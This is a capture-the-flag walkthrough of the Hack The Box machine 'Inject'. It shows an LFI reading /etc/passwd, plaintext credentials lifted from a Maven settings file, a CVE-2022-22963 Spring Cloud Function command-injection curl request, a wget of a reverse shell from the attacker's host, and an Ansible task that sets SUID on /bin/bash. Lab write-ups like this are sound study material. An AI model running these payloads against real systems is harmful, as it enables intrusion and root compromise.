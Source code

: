 ```yaml
---
title: Inject
categories: [HTB]
tags: complete active easy linux
img_path: /assets/img/HTB/inject/
---
```


![inject.card](Inject.png)

> MetaTwo is an easy Linux machine from Hack the Box. Here is the tldr;
{: .prompt-tip }

## Enumeration

### nmap

```
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/inject]
└─$ sudo nmap 10.129.35.51                              
[sudo] password for dimondsec: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-11 21:36 MST
Nmap scan report for 10.129.35.51
Host is up (0.66s latency).
Not shown: 933 closed tcp ports (reset), 65 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 6.38 seconds
```

We've only got two ports open, `22` and `8080`. We likely won't find anything with port 22 so let's head over to 8080 in a broswer.

We've got a website, many of the links don't do anything. However, it looks like there may be a site under construction (maybe a subdomain??) We also have an upload page that will only accept images. If we upload an image, it looks like there is an LFI vulnerability in the URL.

```
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```
We are able to see files and the directory in burp by just going to the URL. In `/home/frank` we find a folder names `/.m2` that has a `settings.xml` file that contains credentials.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```
After some more searching we find that it is running a vulnerable version of `Spring Cloud` (3.2.2). There is an exploit [here](https://github.com/me2nuk/CVE-2022-22963) All we have to do is run the curl request found of the site with the Inject IP address and port.

```shell
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/inject]
└─$ curl -X POST  http://10.129.35.51:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")' --data-raw 'data' -v 
docker exec -it --user=root vuln ls /tmp
```
This creates a new file at `/tmp/pwned`. We check using the LFI discovered earlier and it is there! Let's now create a basic reverse shell file on our Kali box, use `wget` in our exploit above to download the shell to `/tmp` on Inject, set up a netcat listener, then use our exploit to run the reverse shell with bash.

```shell
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/inject/www]
└─$ curl -X POST  http://10.129.35.51:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("wget http://10.10.14.66/revshell.sh -O /tmp/revshell.sh")' --data-raw 'data' -v
docker exec -it --user=root vuln ls /tmp
```
```shell
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/inject/www]
└─$ curl -X POST  http://10.129.35.51:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash -i /tmp/revshell.sh")' --data-raw 'data' -v
docker exec -it --user=root vuln ls /tmp
```
Now we have a shell with `frank`! From our enumeration earlier, we know that `user.txt` is owned by `phil`, and we already have his password from a file we found a while ago. So `su` to phil and we have our flag.

I uploaded `pspy` and noticed that there is something being run called Ansible Playbook. It is running and using any `.py` file in the directory `/opt/automations/tasks` directory. After some googling, it looks like we can create a new `.yml` file in that directory with the following to set UID to `/bin/bash` and give us root.

```yml
- name: "whatever"
  hosts: localhost
  connection: local
  tasks:
    - name: "whatever"
      shell: "chmod +s /bin/bash"
      register: "output"
```
Once it's created we just have to wait a couple of minutes, run `bash -p` and boom, we're root.






